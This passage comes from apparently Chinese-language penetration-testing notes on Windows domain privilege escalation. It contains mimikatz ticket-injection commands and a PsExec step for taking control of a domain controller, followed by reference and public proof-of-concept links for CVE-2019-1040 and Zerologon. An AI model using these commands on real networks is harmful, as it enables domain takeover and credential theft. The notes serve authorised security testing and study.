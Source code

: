         # -u 域账号+@+域名称
        # -s 为 ts1 的 SID 值，可以通过 whoami/all 来获取用户的 SID 值
        # -d 为当前域的域控
        # -p 为当前用户的密码，即 ts1 的密码
        ```
        接下来将导出生成一张 kerberos 票据，配合 mimikatz 的 ptt 功能，将票据导入到内存中

        使用 mimikatz 将票据注入到当前内存中，伪造凭证，如果成功则拥有域管理权限，可任意访问域中所有机器
        ```bash
        kerberos::purge                 # 清空当前机器中所有凭证，如果有域成员凭证会影响凭证伪造
        kerberos::list                  # 查看当前机器凭证
        kerberos::ptc [ccachefile]      # 将票据注入到内存中

        可以使用 net use \\域控名\C$ 尝试访问域控

        也能执行 psexec
        PsExec64.exe -accepteula \\域控名 -s cmd /c "whoami /all"
        ```

**CVE-2019-1040 Windows NTLM 篡改漏洞**

- 简介

    使用中继的 LDAP 身份验证，为攻击者帐户授予 DCSync 权限。攻击者帐户使用 DCSync 转储 AD 中的所有密码哈希值。

    也可以将目标服务器的基于资源的约束委派权限授予攻击者控制下的计算机帐户。攻击者作为受害者服务器上的任何用户进行身份验证。

- 相关文章
    - [结合CVE-2019-1040漏洞的两种域提权深度利用分析](https://www.freebuf.com/vuls/207399.html)
    - [Cve 2019 1040 Intranet Killer](https://syst1m.com/post/cve-2019-1040-intranet-killer/)

- POC | Payload | exp
    - [Ridter/CVE-2019-1040: CVE-2019-1040 with Exchange](https://github.com/Ridter/CVE-2019-1040)
    - [fox-it/cve-2019-1040-scanner](https://github.com/fox-it/cve-2019-1040-scanner)
    - [Ridter/CVE-2019-1040-dcpwn](https://github.com/Ridter/CVE-2019-1040-dcpwn)
    - [QAX-A-Team/dcpwn](https://github.com/QAX-A-Team/dcpwn)

**CVE-2020-1472 zerologon**
- 相关文章
    - [Netlogon域控提权(CVE-2020-1472)](https://mp.weixin.qq.com/s/eDbZZFflb0_8ZYhQcudJXg)
    - [CVE-2020-1472 windows域控提权 zerologon从搭建到复现](https://mp.weixin.qq.com/s/G_umJghOS4DXBNEhkDYeWg)
    - [Hijacking a Domain Controller with Netlogon RPC (aka Zerologon: CVE-2020-1472) | Trustwave](https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/hijacking-a-domain-controller-with-netlogon-rpc-aka-zerologon-cve-2020-1472/)
    - [林级域环境下复现 CVE-2020-1472](https://0x20h.com/p/9b5.html#%E7%8E%AF%E5%A2%83)
    - [CVE-2020-1472域内提权漏洞利用](https://mp.weixin.qq.com/s/udhDpRK7xNc06cjyY1Xhpw)
    - [ZeroLogon(CVE-2020-1472) 分析与狩猎](https://mp.weixin.qq.com/s/Z0aXYBJiJnIkcr12A_jeuQ)
    - [White Paper: Understanding and Exploiting Zerologon](https://sidb.in/posts/zerologon/)

- 影响版本
    - Windows Server 2008
    - Windows Server 2012
    - Windows Server 2016
    - Windows Server 2019
